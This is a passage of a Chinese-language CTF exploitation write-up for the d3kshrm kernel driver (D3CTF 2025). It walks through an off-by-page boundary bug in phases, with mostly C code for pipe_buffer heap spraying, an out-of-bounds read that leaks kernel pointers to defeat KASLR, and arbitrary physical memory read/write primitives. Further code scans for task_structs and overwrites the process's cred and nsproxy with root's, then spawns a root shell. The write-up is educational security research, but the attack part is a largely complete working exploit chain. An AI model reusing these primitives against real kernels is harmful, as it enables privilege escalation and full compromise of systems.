在完成了OOB检测的准备工作后，开始执行OOB检测。本阶段的目标是触发边界检查漏洞，验证是否成功访问到目标pipe_buffer，记录成功的chunk和管道索引，为后续操作建立基础。

对每个chunk的映射区域，计算越界地址`victim_map[i] + 0x1000 * 0x200`，然后尝试读取这个地址的8字节数据。这个读取操作会触发缺页异常，内核会调用`d3kshrm_vm_fault`函数。

在`d3kshrm_vm_fault`中，函数计算页面偏移`pgoff = 0x200 = 512`。然后执行边界检查`if (vmf->pgoff > chunk->page_count)`。由于`chunk->page_count = 512`，条件`512 > 512`为false，检查通过，允许访问`pages[512]`。

在精心构造的内存布局中，`chunk->pages`数组恰好占满一个4KB页，`chunk->pages[512]`的地址计算为`pages数组基地址+4096`，这恰好是相邻pipe_buffer页的起始位置。内核将这个地址的8字节数据解释为`struct page*`指针，实际上是pipe_buffer结构的`page`字段，指向管道数据页面。

用户程序然后读取这个地址的8字节数据，这实际上是管道缓冲区的前8字节，即写入的魔数"BinRacer"。比较读取的值与预期的魔数，如果匹配，说明成功触发了漏洞，并且成功访问到了目标pipe_buffer。

```c
int phase_oob_detection_via_page_fault(void) {
    log.info("===========================================================");
    log.info("PHASE 4: DETECTING OOB READ VIA PAGE FAULTS                ");
    log.info("===========================================================");

    log.info("Triggering page faults to detect magic number 0x72656361526e6942 (BinRacer)");
    for (int i = 0; i < CHUNK_COUNT; i++) {
        log.debug("Testing chunk %d", i);
        leak_data = (size_t *)(victim_map[i] + 0x1000 * 0x200);
        if (leak_data[0] == 0x72656361526e6942) {  // "BinRacer" in little endian
            victim_chunk_idx = i;
            victim_pipe_idx = ((size_t *)(victim_map[i] + 0x1000 * 0x200))[1];
            log.success("Found Victim pipe: %d, Victim chunk: %d", victim_pipe_idx,
                        victim_chunk_idx);
            hex_dump("Victim pipe data", leak_data, 0x30);
            break;
        }
    }

    if (victim_pipe_idx == -1) {
        log.error("No victim pipe detected! Exploit failed at initial OOB detection");
        return -1;
    }

    return 0;
}
```

**第四阶段OOB检测流程**：


```mermaid
sequenceDiagram
    participant User as 用户进程
    participant CPU as CPU硬件
    participant Fault as d3kshrm_vm_fault
    participant PipeBuffer as pipe_buffer页

    User->>CPU: 读取越界地址victim_map[i]+0x200000
    CPU->>Fault: 触发缺页异常，CR2=访问地址

    Note over Fault: 计算pgoff = (address - vma->vm_start) >> 12
    Note over Fault: pgoff = 0x200 = 512
    Note over Fault: 边界检查: 512 > 512? false
    Note over Fault: 检查通过，允许访问

    Fault->>Fault: 访问chunk->pages[512]
    Fault->>PipeBuffer: 读取相邻pipe_buffer页起始处
    PipeBuffer-->>Fault: 返回pipe_buffer->page指针

    Fault-->>CPU: 建立页面映射
    CPU-->>User: 继续执行读取指令

    User->>User: 读取到魔数"BinRacer"
    User->>User: 验证成功，记录victim_chunk_idx和victim_pipe_idx
```

### 5-6. 第五阶段：清理与二次喷洒

在成功检测到OOB访问后，需要进行清理和二次喷洒，为内核指针泄漏准备条件。本阶段的目标是清理第一阶段资源，重新构造内存布局，创建更加可控的内存环境。

`victim_pipe_idx`索引的管道是前面越界读取的管道，通过`close(pipe_fds[victim_pipe_idx][0])`和`close(pipe_fds[victim_pipe_idx][1])`关闭管道文件描述符，然后通过`munmap(victim_map[victim_chunk_idx], MREMAP_SIZE)`解除内存映射。这样，之前被越界访问的pipe_buffer->page对应的页面就被释放回order-0空闲列表。

然后调整其他所有管道（除了victim_pipe_idx）的缓冲区大小为16KB（0x1000\*4），这会为每个管道分配一个包含4个pipe_buffer结构体的数组，每个数组大小为160字节，从kmalloc-192/order-0缓存中分配，从而占用刚才释放的order-0页面。

接着解绑和删除`victim_chunk_idx`对应的chunk（即可以越界访问pipe_buffer所在物理页的chunk）。这个操作会释放chunk相关的资源，为重新分配准备空间。

然后重新分配CHUNK_COUNT个chunk（从CHUNK_COUNT到CHUNK_COUNT\*2），这些chunk会占用刚才释放的chunk结构。最后为这些新chunk建立内存映射，为第二次越界访问做好准备。

```c
int phase_cleanup_and_order0_spray(void) {
    log.info("===========================================================");
    log.info("PHASE 5: CLEANUP & ORDER-0 HEAP SPRAY                      ");
    log.info("===========================================================");

    log.info("Cleaning victim pipe and preparing for second stage spray");
    close(pipe_fds[victim_pipe_idx][0]);
    close(pipe_fds[victim_pipe_idx][1]);
    munmap(victim_map[victim_chunk_idx], MREMAP_SIZE);

    log.info("Spraying kmalloc-192/order-0 objects via pipe buffer resize");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (i == victim_pipe_idx)
            continue;
        resize_pipe_buffer(i, 0x1000 * 4);
    }

    log.info("Freeing victim device chunk for reallocation");
    unbind_chunk(dev_fd[victim_chunk_idx], chunk_ids[victim_chunk_idx]);
    delete_chunk(dev_fd[victim_chunk_idx], chunk_ids[victim_chunk_idx]);

    log.info("Spraying driver chunks to occupy freed memory regions");
    for (int i = CHUNK_COUNT; i < CHUNK_COUNT * 2; i++) {
        chunk_ids[i] = create_chunk(dev_fd[i], VULN_CHUNK_SIZE);
    }

    log.info("Triggering d3kshrm_mmap and extending mapping for second stage");
    for (int i = CHUNK_COUNT; i < CHUNK_COUNT * 2; i++) {
        bind_chunk(dev_fd[i], chunk_ids[i]);
        victim_map[i] =
            mmap(NULL, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, dev_fd[i], 0);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mmap() failed on chunk %d", i);
            return -1;
        }

        victim_map[i] = mremap(victim_map[i], MMAP_SIZE, MREMAP_SIZE, MREMAP_MAYMOVE);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mremap() failed to extend mapping for chunk %d", i);
            return -1;
        }
    }

    return 0;
}
```

**第五阶段内存布局变化**：

<pre>
清理和二次喷洒内存布局变化：
初始状态: 成功OOB检测后的布局
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │C0 │B1 │C2 │B3 │C4 │B5 │C6 │B7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         C0: victim_chunk (可越界访问B1)
         B1: victim_pipe的pipe_buffer页

清理目标: 关闭victim_pipe，解除victim_chunk映射
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │F0 │F1 │C2 │B3 │C4 │B5 │C6 │B7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         F0: 已释放的victim_chunk位置
         F1: 已释放的victim_pipe_buffer页

order-0喷洒: 调整其他管道缓冲区大小
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │F0 │O1 │C2 │O3 │C4 │O5 │C6 │O7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         O1,O3,...: order-0大小的pipe_buffer数组

重新分配: 在新的位置分配chunk
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │C8 │O1 │C9 │O3 │C10│O5 │C11│O7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         C8,C9,...: 新分配的chunk (索引32-63)
         O1,O3,...: order-0 pipe_buffer数组
</pre>

### 5-7. 第六阶段：内核指针泄漏

在完成了清理和二次喷洒后，开始内核指针泄漏阶段。本阶段的目标是通过OOB读取泄漏内核指针，计算内核地址空间偏移，建立内核地址映射关系，为后续的物理内存访问奠定基础。

`victim_chunk`已经重新占用，其`pages[512]`刚好可以访问二次堆喷的kmalloc-192的pipe_buffer结构数组所在物理页面，从而可以泄漏page地址和内核函数指针。

扫描新分配的chunk（从CHUNK_COUNT到CHUNK_COUNT\*2），对每个chunk的映射区域计算越界地址并读取数据。检查读取的数据是否包含内核指针：第一个8字节值应该大于vmemmap_base（表示struct page指针），第三个8字节值应该大于kernel_base（表示函数指针）。

当找到包含内核指针的数据时，将其复制到`fake_pipe_buf`结构中。这个结构模拟了pipe_buffer的内存布局，包含了关键的`page`和`ops`字段。通过`ops`字段可以计算内核偏移量：`kernel_offset = leak_data[2] - ANON_PIPE_BUF_OPS`，其中ANON_PIPE_BUF_OPS是`anon_pipe_buf_ops`的预设地址。

```c
int phase_kernel_pointer_leak_via_oob(void) {
    log.info("===========================================================");
    log.info("PHASE 6: KERNEL POINTER LEAK VIA OOB READ                  ");
    log.info("===========================================================");

    log.info("Scanning for kernel pointers in second victim chunk");
    for (int i = CHUNK_COUNT; i < CHUNK_COUNT * 2; i++) {
        log.debug("Testing chunk %d", i);
        leak_data = (size_t *)(victim_map[i] + 0x1000 * 0x200);
        if (leak_data[0] > vmemmap_base && leak_data[2] > kernel_base) {
            memset(&fake_pipe_buf, 0, sizeof(struct pipe_buffer));
            memcpy(&fake_pipe_buf, leak_data, sizeof(struct pipe_buffer));
            second_victim_chunk_idx = i;
            kernel_offset = leak_data[2] - ANON_PIPE_BUF_OPS;
            kernel_base += kernel_offset;
            log.success("Found Second Victim chunk: %d", second_victim_chunk_idx);
            log.success("Leaked pipe_buffer->page kernel pointer: 0x%lx", leak_data[0]);
            log.success("Leaked pipe_buffer->ops(anon_pipe_buf_ops) function pointer: 0x%lx",
                        leak_data[2]);
            log.success("kernel base address: 0x%lx", kernel_base);
            log.success("kernel ASLR offset delta: 0x%lx", kernel_offset);
            hex_dump("Leaked pipe_buffer structure", leak_data, 0x30);
            break;
        }
    }

    if (second_victim_chunk_idx == -1) {
        log.error("No second victim pipe detected! Kernel pointer leak failed");
        return -1;
    }

    return 0;
}
```

**pipe_buffer结构布局**：

```c
/* offset      |    size */  type = struct pipe_buffer {
/* 0x0000      |  0x0008 */    struct page *page;
/* 0x0008      |  0x0004 */    unsigned int offset;
/* 0x000c      |  0x0004 */    unsigned int len;
/* 0x0010      |  0x0008 */    const struct pipe_buf_operations *ops;
/* 0x0018      |  0x0004 */    unsigned int flags;
/* XXX  4-byte hole      */
/* 0x0020      |  0x0008 */    unsigned long private;

                               /* total size (bytes):   40 */
                             }
```

**内核地址计算原理**：

```
内核基地址计算方法:
泄漏的ops指针: leak_data[2] = 实际anon_pipe_buf_ops地址
预设的ops指针: ANON_PIPE_BUF_OPS = 预设anon_pipe_buf_ops地址
内核偏移: kernel_offset = leak_data[2] - ANON_PIPE_BUF_OPS
内核基地址: kernel_base += kernel_offset
```

### 5-8. 第七阶段：物理内存R/W原语

在成功泄漏内核指针后，开始构建物理内存读写原语。本阶段的目标是构建任意物理内存读写能力，建立稳定的内存访问通道，为内核内存扫描和修改奠定基础。

通过控制`fake_pipe_buf`结构，可以构建任意物理内存读写原语。`fake_pipe_buf`模拟了pipe_buffer的内存布局，通过修改其字段可以控制管道操作访问的物理内存位置。

首先修改`fake_pipe_buf.offset`为0x8，跳过魔数字段。然后将修改后的结构写回越界访问点。这样当通过这个管道进行读写操作时，访问的将是`fake_pipe_buf`指定的物理内存位置。

扫描所有管道（除了第一个目标管道），对每个管道读取8字节数据。如果读取到的不是魔数"BinRacer"，说明找到了目标管道。记录这个管道索引作为第二目标管道，用于后续的物理内存访问。

```c
int phase_arbitrary_phys_rw_primitive(void) {
    log.info("===========================================================");
    log.info("PHASE 7: ARBITRARY PHYSICAL MEMORY R/W PRIMITIVE           ");
    log.info("===========================================================");

    log.info("Configuring arbitrary physical memory read/write primitive");
    fake_pipe_buf.offset = 0x8;  // Skip magic number to identify correct pipe
    memcpy(leak_data, &fake_pipe_buf, sizeof(struct pipe_buffer));

    log.info("Scanning pipes to identify target for arbitrary R/W operations");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (i == victim_pipe_idx)
            continue;
        size_t magic = 0;
        read(pipe_fds[i][0], &magic, 0x8);
        if (magic != 0x72656361526e6942) {  // Check for "BinRacer" magic
            second_victim_pipe_idx = i;
            log.success("Found target pipe for arbitrary R/W: %d", second_victim_pipe_idx);
            break;
        }
    }

    if (second_victim_pipe_idx == -1) {
        log.error("Failed to locate target pipe for arbitrary R/W operations");
        return -1;
    }

    return 0;
}
```

**物理内存读写原语实现**：

```c
/**
 * arbitrary_phys_read - Read arbitrary physical memory through pipe primitive
 * @target_page: Physical page address
 * @page_offset: Offset within target page
 * @output_buffer: Destination buffer for read data
 * @read_length: Number of bytes to read
 */
void arbitrary_phys_read(uint64_t target_page, uint32_t page_offset,
                         void *output_buffer, uint64_t read_length) {
    fake_pipe_buf.page = (struct page *)target_page;
    fake_pipe_buf.offset = page_offset;
    fake_pipe_buf.len = 0xfff;
    memcpy(leak_data, &fake_pipe_buf, sizeof(struct pipe_buffer));
    read(pipe_fds[second_victim_pipe_idx][0], output_buffer, read_length);
}

/**
 * arbitrary_phys_write - Write arbitrary physical memory through pipe primitive
 * @target_page: Physical page address
 * @page_offset: Offset within target page
 * @input_data: Source buffer containing write data
 * @write_length: Number of bytes to write
 */
void arbitrary_phys_write(uint64_t target_page, uint32_t page_offset,
                          void *input_data, uint64_t write_length) {
    fake_pipe_buf.page = (struct page *)target_page;
    fake_pipe_buf.offset = page_offset;
    fake_pipe_buf.len = 0;
    memcpy(leak_data, &fake_pipe_buf, sizeof(struct pipe_buffer));
    write(pipe_fds[second_victim_pipe_idx][1], input_data, write_length);
}
```

**物理内存访问流程图**：


```mermaid
flowchart TD
    Start[开始物理内存访问] --> Setup[配置fake_pipe_buf<br>设置page指针和offset]
    Setup --> Update[将fake_pipe_buf写回越界访问点]
    Update --> Operation{选择操作类型}

    Operation -- 读操作 --> ReadOp[调用read从管道读取]
    ReadOp --> KernelRead[内核从指定物理地址读取数据]
    KernelRead --> CopyData[数据复制到用户缓冲区]
    CopyData --> ReturnRead[返回读取的数据]

    Operation -- 写操作 --> WriteOp[调用write向管道写入]
    WriteOp --> KernelWrite[内核向指定物理地址写入数据]
    KernelWrite --> ReturnWrite[写入完成]
```

### 5-9. 第八阶段：内核内存扫描

在构建了物理内存读写原语后，开始内核内存扫描阶段。本阶段的目标是扫描物理内存定位关键结构，查找当前进程和root进程task_struct，建立进程数据结构映射，为权限提升做准备。

**`find_vmemmap_base()`函数分析**：

这个函数用于定位vmemmap_base，即struct page数组的基地址。vmemmap是内核中用于管理物理页面的数据结构区域，通过定位这个区域可以建立物理地址与struct page指针之间的映射关系。

函数从泄漏的page指针（fake_pipe_buf.page）开始，按页对齐后作为起始地址，然后向后扫描物理内存，查找内核代码特征。具体来说，它在每个候选地址读取16字节数据，检查是否匹配`secondary_startup_64`函数的特征。这个函数是内核启动早期的一个函数，其地址具有特定的特征。

```c
void find_vmemmap_base(void) {
    vmemmap_base = (size_t)fake_pipe_buf.page & 0xfffffffff0000000;
    size_t round = 0;

    for (round = 0;; round++) {
        size_t candidate_value[4] = {0};
        arbitrary_phys_read((vmemmap_base + 0x2740), 0, candidate_value, 0x10);

        if (candidate_value[0] > kernel_base &&
            ((candidate_value[0] & 0xfff) == (SECONDARY_STARTUP_64 & 0xfff))) {
            log.success("Located secondary_startup_64 signature in physmem, addr=0x%lx",
                        candidate_value[0]);
            break;
        }
        vmemmap_base -= 0x10000000;
    }
    log.success("Successfully mapped vmemmap_base address: 0x%lx", vmemmap_base);
}
```

**`scan_for_task_structs()`函数分析**：

这个函数用于扫描物理内存，查找当前进程和root进程（swapper）的task_struct。通过设置当前进程名称为"pwn4kernel"，然后在物理内存中搜索这个字符串，同时搜索"swapper"字符串。

函数遍历物理内存页面，对每个页面读取内容并搜索特征字符串。当找到包含"pwn4kernel"的页面时，验证其周围的字段是否符合task_struct的结构。通过计算偏移量获取关键指针：cred、real_cred、parent、real_parent等。通过ptraced字段计算task_struct的虚拟地址。

同样方法找到包含"swapper"的页面，获取root进程的task_struct信息。记录root进程的cred、nsproxy等关键指针。

```c
void scan_for_task_structs(void) {
    size_t round = 0;
    int current_task_found = 0;
    int root_task_found = 0;
    char page_content_buffer[0x1000] = {0};
    size_t *current_comm_ptr;
    size_t *root_comm_ptr;

    prctl(PR_SET_NAME, "pwn4kernel");
    log.info("Scanning physical memory pages to identify active task_struct instances");

    for (round = 0;; round++) {
        memset(page_content_buffer, 0, 0x1000);
        arbitrary_phys_read((vmemmap_base + round * 0x40), 0, page_content_buffer, 0xf00);

        current_comm_ptr = (size_t *)memmem(page_content_buffer, 0xf00, "pwn4kernel", 10);
        root_comm_ptr = (size_t *)memmem(page_content_buffer, 0xf00, "swapper", 7);

        if (current_comm_ptr && (current_comm_ptr[-2] > 0xffff888000000000) &&
            (current_comm_ptr[-3] > 0xffff888000000000) &&
            (current_comm_ptr[-59] > 0xffff888000000000) &&
            (current_comm_ptr[-58] > 0xffff888000000000)) {
            // 找到当前进程task_struct
            current_task_found++;
            parent_task_addr = current_comm_ptr[-59];
            current_task_addr = current_comm_ptr[-52] - 0x5d8;
            page_offset_base = (current_comm_ptr[-52] & 0xfffffffffffff000) - round * 0x1000;
            page_offset_base &= 0xfffffffff0000000;
            current_task_page_addr = (vmemmap_base + round * 0x40);
            if (current_task_found && root_task_found)
                break;
        }

        if (root_comm_ptr && (root_comm_ptr[-2] > 0xffff888000000000) &&
            (root_comm_ptr[-3] > 0xffff888000000000) &&
            (root_comm_ptr[-59] > 0xffff888000000000) &&
            (root_comm_ptr[-58] > 0xffff888000000000)) {

            if (root_task_found)
                continue;

            // 找到root进程task_struct
            root_task_found++;
            root_cred_addr = root_comm_ptr[-3];
            root_task_addr = root_comm_ptr[-52] - 0x5d8;
            root_nsproxy_addr = root_comm_ptr[9];
            root_task_page_addr = (vmemmap_base + round * 0x40);
            if (current_task_found && root_task_found)
                break;
        }
    }
}
```

```c
int phase_kernel_memory_scanning(void) {
    log.info("===========================================================");
    log.info("PHASE 8: KERNEL MEMORY SCANNING & STRUCTURE LOCALIZATION   ");
    log.info("===========================================================");

    log.info("Initiating kernel memory exploration phase");
    find_vmemmap_base();
    scan_for_task_structs();

    return 0;
}
```

**内核内存扫描流程**：


```mermaid
flowchart TD
    Start[开始内核内存扫描] --> FindVmemmap[定位vmemmap_base<br>扫描物理内存查找内核特征]
    FindVmemmap --> SetName[设置进程名称为'pwn4kernel']
    SetName --> ScanPages[扫描物理内存页面]

    ScanPages --> CheckPage{页面内容检查}

    CheckPage -- 包含'pwn4kernel' --> ValidateCurrent[验证当前进程task_struct字段]
    ValidateCurrent --> ExtractCurrent[提取当前进程关键指针<br>cred, real_cred, parent等]
    ValidateCurrent --> CalcCurrentAddr[计算当前进程task_struct地址]

    CheckPage -- 包含'swapper' --> ValidateRoot[验证root进程task_struct字段]
    ValidateRoot --> ExtractRoot[提取root进程关键指针<br>root_cred, root_nsproxy等]
    ValidateRoot --> CalcRootAddr[计算root进程task_struct地址]

    CheckPage -- 不匹配 --> ContinueScan[继续扫描下一页]

    ExtractCurrent --> BothFound{是否找到两个进程?}
    ExtractRoot --> BothFound

    BothFound -- 是 --> Complete[扫描完成]
    BothFound -- 否 --> ContinueScan
```

### 5-10. 第九阶段：权限提升验证

在成功定位了关键的内核数据结构后，开始权限提升验证阶段。本阶段的目标是修改当前进程凭证，验证权限提升效果，获取root权限shell，完成整个验证过程。

**`overwrite_cred_with_root()`函数分析**：

这个函数用于将当前进程的凭证（cred和real_cred）替换为root进程的凭证，同时将命名空间代理（nsproxy）也替换为root进程的。通过读取当前进程的task_struct物理页面，修改其中的cred、real_cred和nsproxy指针，然后写回物理内存。

函数首先读取当前进程的物理页面内容到缓冲区。在缓冲区中定位"pwn4kernel"字符串，验证周围的字段是否符合task_struct结构。然后修改关键指针：将cred和real_cred指针改为root_cred_addr，将nsproxy指针改为root_nsproxy_addr。

将修改后的缓冲区写回物理内存。这样当前进程就拥有了root进程的凭证和命名空间，实现了权限提升。

```c
void overwrite_cred_with_root(void) {
    size_t round = 0;
    char task_copy_buffer[0x1000] = {0};
    size_t *current_comm_field_ptr;

    log.info("Modifying current task_struct credentials to gain root privileges");
    for (round = 0;; round++) {
        memset(task_copy_buffer, 0, 0x1000);
        arbitrary_phys_read((current_task_page_addr + round * 0x40), 0, task_copy_buffer, 0xf00);

        current_comm_field_ptr = (size_t *)memmem(task_copy_buffer, 0xf00, "pwn4kernel", 10);

        if (current_comm_field_ptr && (current_comm_field_ptr[-2] > 0xffff888000000000) &&
            (current_comm_field_ptr[-3] > 0xffff888000000000) &&
            (current_comm_field_ptr[-59] > 0xffff888000000000) &&
            (current_comm_field_ptr[-58] > 0xffff888000000000)) {
            // 修改凭证指针
            current_comm_field_ptr[-2] = root_cred_addr;  // 修改task->cred
            current_comm_field_ptr[-3] = root_cred_addr;  // 修改task->real_cred
            current_comm_field_ptr[9] = root_nsproxy_addr;  // 修改task->nsproxy

            // 写回修改后的task_struct
            arbitrary_phys_write((current_task_page_addr + round * 0x40), 0, task_copy_buffer, 0xf00);

            log.success("[Round %d] Credential patching complete at phys page: 0x%lx", round,
                        current_task_page_addr);
            break;
        }
    }
}
```

**凭证修改过程**：

```
修改前的task_struct关键字段:
cred指针:       指向当前进程的cred结构
real_cred指针:  指向当前进程的real_cred结构
nsproxy指针:    指向当前进程的命名空间代理

修改后的task_struct关键字段:
cred指针:       指向root进程的cred结构 (root_cred_addr)
real_cred指针:  指向root进程的real_cred结构 (root_cred_addr)
nsproxy指针:    指向root进程的命名空间代理 (root_nsproxy_addr)
```

**凭证修改流程图**：

```mermaid
sequenceDiagram
    participant User as 用户进程
    participant PhysMem as 物理内存
    participant Kernel as 内核

    User->>PhysMem: 读取当前进程task_struct物理页面
    PhysMem-->>User: 返回页面数据

    Note over User: 在缓冲区中定位"pwn4kernel"字符串
    Note over User: 验证task_struct结构完整性

    User->>User: 修改关键指针：
    User->>User: - cred指针 = root_cred_addr
    User->>User: - real_cred指针 = root_cred_addr
    User->>User: - nsproxy指针 = root_nsproxy_addr

    User->>PhysMem: 将修改后的缓冲区写回物理内存
    PhysMem-->>Kernel: 更新当前进程task_struct

    Note over Kernel: 当前进程获得root凭证
    Kernel-->>User: 进程权限提升完成

    User->>User: 验证权限提升效果
    User->>User: 启动root shell
```

```c
int phase_privilege_escalation(void) {
    log.info("===========================================================");
    log.info("PHASE 9: CREDENTIAL OVERWRITE & PRIVILEGE ESCALATION       ");
    log.info("===========================================================");

    overwrite_cred_with_root();
    get_root_shell();
    return 0;
}
```

### 5-11. 第十阶段：资源清理

在完成了权限提升验证后，需要进行资源清理。本阶段的目标是释放所有分配的资源，确保系统状态恢复，避免资源泄漏，完成整个验证过程。

在完成了所有验证操作后，需要清理所有分配的资源，确保系统状态的完整性和稳定性。资源清理不仅是良好的编程实践，也是安全验证的重要部分，可以避免资源泄漏和系统状态异常。

关闭所有设备文件描述符。每个设备文件描述符对应一个d3kshrm驱动模块的打开实例。关闭操作会触发驱动的`release`函数，该函数执行必要的清理工作，包括减少引用计数、释放相关资源等。

解除所有内存映射。对每个有效的映射地址调用`munmap`，释放虚拟地址空间，触发内核清理相关的页面映射。

关闭所有管道文件描述符。对每个管道的读端和写端分别调用`close`，释放管道资源，触发内核清理相关的缓冲区。

记录清理完成信息，结束验证过程。

```c
void phase_resource_cleanup(void) {
    log.info("===========================================================");
    log.info("PHASE 10: RESOURCE CLEANUP & FINALIZATION                  ");
    log.info("===========================================================");

    log.info("Performing resource cleanup");

    // Close device file descriptors
    for (int i = 0; i < CHUNK_COUNT * 2; i++) {
        if (dev_fd[i] > 0) {
            close(dev_fd[i]);
        }
    }

    // Unmap victim mappings
    for (int i = 0; i < CHUNK_COUNT * 2; i++) {
        if (victim_map[i] != MAP_FAILED && victim_map[i] != NULL) {
            munmap(victim_map[i], MREMAP_SIZE);
        }
    }

    // Close pipe file descriptors
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (pipe_fds[i][0] > 0) {
            close(pipe_fds[i][0]);
        }
        if (pipe_fds[i][1] > 0) {
            close(pipe_fds[i][1]);
        }
    }

    log.info("Cleanup completed");
}
```

### 5-12. 技术对比

| 对比维度         | 第三章：基础验证                                   | 第五章：进阶验证                       |
| ---------------- | -------------------------------------------------- | -------------------------------------- |
| **验证目标**     | 验证边界检查漏洞的存在性和可触发，实现目标文件修改 | 构建任意物理内存读写原语，实现权限提升 |
| **技术复杂度**   | 中等，单一漏洞触发                                 | 高，多阶段复杂内存操作                 |
| **内存布局构造** | 单次构造，pages数组与pipe_buffer交错分布           | 两次构造，包含清理和二次喷洒           |
| **资源使用**     | 240个管道，32个chunk                               | 240个管道，64个chunk（分阶段使用）     |
| **内核信息获取** | 仅验证漏洞触发，无内核信息泄漏                     | 泄漏内核指针，计算地址空间偏移         |
| **能力提升**     | 越界访问并修改目标文件                             | 任意物理内存读写原语                   |
| **系统影响**     | 文件系统操作，修改目标文件内容                     | 内核内存读写，可能影响系统稳定性       |
| **技术价值**     | 验证漏洞存在性和初步危害                           | 展示完整利用链，评估防御机制有效性     |

**关键技术演进**：

1. **从检测到利用**：第三章主要验证漏洞的可检测性和初步利用，第五章展示了完整的利用链
2. **从文件操作到内存操作**：第三章实现对目标文件的读取和修改，第五章构建了对内核物理内存的读写原语
3. **从用户空间到内核空间**：第三章操作限于文件系统页面缓存，第五章实现了对整个内核内存空间的访问
4. **从局部到全局**：第三章关注特定内存区域，第五章实现了对整个物理内存的访问
5. **从文件修改到权限提升**：第三章通过修改目标文件展示潜在危害，第五章通过权限提升展示实际安全影响

### 5-13. 技术总结

本章完整展示了基于Off-by-Page边界检查漏洞构建任意物理内存读写原语并实现权限提升的完整验证过程。整个验证过程分为十个逻辑阶段，从环境初始化到最终权限提升，涵盖了现代操作系统安全验证的多个关键技术点。通过精心设计的多次内存布局构造和清理操作，成功将初始的越界访问能力提升为任意物理内存读写能力，进而定位关键内核数据结构并修改进程凭证，实现了权限提升验证。验证过程中，首先通过`find_vmemmap_base()`函数定位内核内存管理结构，然后通过`scan_for_task_structs()`函数扫描物理内存定位当前进程和root进程的task_struct结构，最后通过`overwrite_cred_with_root()`函数修改当前进程凭证实现权限提升。整个过程展示了边界检查漏洞的严重性，一个字符的差异（`>`与`>=`）可导致完全突破系统安全边界，为系统安全设计和漏洞防护提供了全面的技术参考。与第三章相比，第三章通过越界访问实现了对目标文件（/bin/busybox）的读取和修改，通过`memcpy`操作将shellcode写入目标文件，展示了漏洞的初步危害；而本章则进一步构建了任意物理内存读写原语，实现了权限提升，展示了漏洞的完整利用链。验证不仅展示了漏洞的技术细节，更强调了在系统设计、实现和运维全过程中贯彻安全原则的重要性，为深度防御、最小权限、失效安全等安全原则在实践中的应用提供了具体案例。

### 5-14. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/OffByPage3
- https://github.com/BinRacer/pwn4kernel/tree/master/src/OffByPage4
- https://9anux.org/2025/06/02/d3kshrm
- https://blog.arttnba3.cn/2025/06/04/CTF-0X0A_D3CTF2025_D3KSHRM_D3KHEAP2
